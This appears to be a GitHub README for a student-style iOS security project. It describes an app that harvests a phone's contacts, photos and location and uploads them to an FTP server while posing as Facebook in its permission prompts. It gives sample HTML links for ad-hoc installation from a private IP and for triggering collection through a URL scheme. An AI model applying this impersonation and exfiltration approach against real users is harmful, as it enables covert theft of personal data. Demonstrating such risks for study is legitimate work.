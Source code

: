 # iOS Security Project
### Overview
For this project I created an iOS App to gather information from a device and have the capability to upload the data to a FTP server. The app will collect all of the phone's contacts, images, and location coordinates and upload them to the server. The user does have to approve the app for the various permission, but in theory this code could be placed in any app including any app that is attempting to masquerade as something else. I demonstrated this by changing my app's target to Facebook. By doing this any permission request from the app will look like it is coming from Facebook.

#### App Delivery
In order to install this app on a user's device you can use Xcode’s ad-hoc deployment. With ad-hoc deployment you can add an install link to any webpage that will prompt a user to install the app. When building the app in Xcode you just need to export an app IPA file along with a manifest.

Example for ad-hoc install link:
<br>
`
<a href="itms-services://?action=download-manifest&url=https://192.168.88.51:1234/app/manifest.plist">Install my app!</a>
`

If the app is installed on a user's device it can also be opened via a url, which will trigger all of the information to be collected and uploaded. When the link is tapped the user's device will open a prompt with the name of your app target, which can again be set to anything. 

Example link to open the app:<br>
`
<a href="MyAppName://">Open the app</a>
`

![](link.png "")
![](openscreen.png "")
![](contacts.png "")
![](locations.png "")